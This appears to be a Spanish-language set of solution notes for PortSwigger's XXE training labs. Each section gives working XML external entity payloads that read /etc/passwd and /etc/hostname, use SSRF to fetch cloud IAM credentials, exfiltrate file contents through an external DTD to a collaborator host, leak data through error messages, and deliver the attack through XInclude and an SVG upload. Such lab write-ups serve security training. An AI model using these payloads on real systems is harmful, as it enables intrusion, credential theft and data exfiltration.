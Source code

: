 ```yaml
---
title: XXE | PortSwigger
---
```

Labs de XXE hechos y explicados

#### Lab: Exploiting XXE using external entities to retrieve files

``` bash
# Creamos una endidad la cual posteriormete referenciaremos:
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
# La referenciamos
    <productId>
        &xxe;
    </productId>
```
-------
#### Lab: Exploiting XXE to perform SSRF attacks

``` bash
# Hacemos lo mismo que en el paso anterior solo que esta vez apuntaremos a un directorio local de la maquina victima:
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <productId>
        &xxe;
    </productId>
```
------
#### Lab: Blind XXE with out-of-band interaction

```
# Hacemos lo mismo que en el paso anterior pero esta vez le pasamos nuestra dirección del burp collaborator
```
--------
#### Lab: Blind XXE with out-of-band interaction via XML parameter entities

``` bash
# En este caso, no podemos referenciar la entidad XXE fuera de su ambito, por lo que obligatoriamente deberíamos hacerlo dentro del DTD:
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://<COLABORATOR> "> %xxe; ]>
```
---------
#### Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

``` bash
# en este caso nos pide mostrar la información del /etc/hostname de la máquina víctima, asi que haremos uso del exploit server para construir el exploit y mandarselo:
# Dentro del body del exploit, introducimos el siguiente codigo:
<!ENTITY % file SYSTEM "file:///etc/hostname"> # Cargamos la entidad externa llamada "file"
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR/?x=%file;'>"> # Creamos una nueva entidad eval
%eval;
%exfil;
# Llamamos a las dos entidades al final para que el exploit funcione.
# Una vez tenemos el exploit creado, le damos a Store y luego view exploit --> Copiamos el link.
# Ahora interceptamos la peticion de check-stock de cualquier item y creamos una entidad XXE la cual llamará al link que contiene en exploit, de esta manera:
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a2f00dc04dc5edcc0375d0401780054.exploit-server.net/exploit"> %xxe;]>
# Finalmente, veremos una petición a nuestro burp-collaborator que contendrá el hostname de la máquina víctima.
```
-----------
#### Lab: Exploiting blind XXE to retrieve data via error messages

```
# Este ejercicio es casi indéntico al anterior. La diferencia está en que esta vez usaremos otra endidad XML llamada error, la cual cargará un file que no existe cuyo nombre contenga el valor de la entidad "file".
# Si nosotros introducimos un DTD simpley corriente, como por ejemplo: 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
# Nos tira un error. Por lo tanto, podemos aprovecharnos de este "error" para mostrar la información de otros archivos. 
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
# Por lo tanto, cuando eval evalue la entidad error e intente cargar el archivo /nonexistent, y como este no existente , entra en juego el error y mostrará los valores del archivo /etc/passwd.
```
----------
#### Lab: Exploiting XInclude to retrieve files

```
#Si interceptamos la petición, no podemos ver ningun formato XML, asi que no podemos usar un DTD ni modificar el DOCTYPE, por lo que hemos de optar por XInclude. Para ello,
# Incluimos el siguiente codigo dentro del parámetro "productId":
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
-------
#### Lab: Exploiting XXE via image file upload

```
# En este caso, sabemos que existe una vulnerabilidad a la hora de subir un avatar (los cuales solo pueden ser subidos en formato SVG), así que vamos a crear un archivo SVG con codigo malicioso para sacar el /etc/hostname. Buscando, encontramos el siguiente código en PayloadAllTheThings
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
# Una vez subida la imagen, volvemos al post y la solución estará dentro de nuestro avatar,
```